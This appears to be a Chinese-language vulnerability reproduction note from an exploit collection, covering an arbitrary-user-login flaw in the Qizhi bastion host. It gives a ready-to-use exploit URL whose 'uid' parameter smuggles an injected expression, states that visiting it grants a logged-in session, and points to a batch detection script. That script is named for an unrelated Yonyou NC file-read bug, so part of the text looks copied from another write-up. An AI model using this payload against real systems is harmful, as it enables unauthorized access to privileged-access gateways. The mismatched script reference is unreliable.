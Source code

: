 # 0x00 软件介绍
齐治堡垒机：国内著名堡垒机厂商  
官网：https://www.qzsec.com/

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
https://x.x.x.x/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```
访问后即为登录状态，表示存在任意用户登录漏洞  
![image](./pic/0.png)

# 0x05 批量脚本
用友NC-FileRead-Vuln-Batch-Detect.py，具体用法见：python3 用友NC-FileRead-Vuln-Batch-Detect.py -h  
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
